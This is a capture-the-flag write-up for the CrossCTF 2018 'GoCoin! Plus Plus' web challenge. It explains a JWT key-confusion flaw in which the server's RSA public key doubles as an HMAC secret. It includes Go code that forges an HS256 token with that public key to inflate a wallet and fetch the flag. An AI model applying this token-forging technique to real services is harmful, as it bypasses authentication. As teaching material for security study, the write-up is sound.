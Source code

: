 
# CrossCTF Finals 2018: GoCoin! Plus Plus (web)

> I thought blockchain was cool, so I made my own coin.
> 
> GoCoin! Plus Plus is the forked and improved version of GoCoin! Plus.
> 
> Update: I've improved it! More secures and with real cryptos, it's a true cryptocoin now! Update: Stupid me wrote a broken challenge, now its really fixed!
> 
> http://ctf.pwn.sg:1389
>
> Creator - quanyang (@quanyang)

## Challenge

So this is the real challenge, fixed by the organisers. TL; DR: 

```diff
54c54
< 	walletString := this.Ctx.GetCookie("wallet")
---
> 	walletString := this.Ctx.GetCookie("wallet_2")
...
92c92
< 	if err != nil {
---
> 	if err != nil || amount < 0 {
...
141c141
< 	if err != nil {
---
> 	if err != nil || amount < 0 {
...
```

So this makes the previous exploit unexploitable. Time to look back at the JWT implementation. 

My familiarity with Go made the [code](https://github.com/NUSGreyhats/crossctf-2018-challenges/blob/master/finals/challenges/GoCoin!%20Plus%20Plus/service/src/main.go) 2x easier to read. 

Because of the hints about crypto being used, it pointed us pretty clearly at the JWT code. If you didn't know yet, JWS stands for JSON Web Tokens. It's a authorization token that can contain data, and makes token validation stateless other than validation of the signature attached using PKI.

It was pretty well-know that JWT had an issue previously where things with `alg: none`. It's even stated in a banner on the JWT website. So, I took a look at the `ParseWallet` function.

```go
func ParseWallet(myToken string, myKey []byte) (float64, float64, error) {
	token, err := jwt.Parse(myToken, func(token *jwt.Token) (interface{}, error) {
		if _, ok := token.Method.(*jwt.SigningMethodHMAC); !ok {
			key, err := jwt.ParseRSAPublicKeyFromPEM(myKey)
			return key, err
		}
		return myKey, nil
	})
	if err == nil && token.Valid {
...
```

From this chunk of code, you can see that the program checks for tokens that are *not* HMAC and then parses the PEM public key. But, if the token is a HMAC, it directly returns the key! This is especially obvious if you compare it to the [example code for HMAC](https://godoc.org/github.com/dgrijalva/jwt-go#example-Parse--Hmac) in the documentation for `github.com/dgrijalva/jwt-go`, and [notices](https://github.com/dgrijalva/jwt-go#compliance) in the project README. 

Since the plaintext public key is being used to perform HMAC comparison rather than validating RSA signatures, we can forge our own tokens because we know the HMAC secret, which is the `[]byte` publicKey. 

So let's write a program to create this HMACed instead of RSAed token. Oh wait, it's already written by the challenge author! Just need to change one tiny bit. 

```go
token := jwt.New(jwt.GetSigningMethod("HS256"))
```

Then now I can do:

```go
myKey := `-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCyg+EcZOSLYXqdA0Gdx6hE0PFY
GshbSxHwBbZ0Ivw41OCD447WtiTmBKWhYkyZIW1uF2G0YpifP9CGZgIHhW6jPUwB
u1ewHy0ch+GQeMleaVGqEOsAd65DAXi2TSCZLl66zWy0enQ/SFkm9OTTGYR0e0hM
DFqKsA30lPd0pHbSNwIDAQAB
-----END PUBLIC KEY-----
` // This newline is important
tokenString, err := Wallet(10000, 10000, []byte(myKey))
fmt.Println(err, tokenString)
_, _, err := ParseWallet(tokenString, myKey)
fmt.Println(err) // nil is SUCCESS! wohoo
```

[Here's the full code](gocoin2jwt.go). 

Now I've got a valid token, I can simply perform the request to /flag with the token set inside the cookie. Many ways to do that, including using DevTools. 


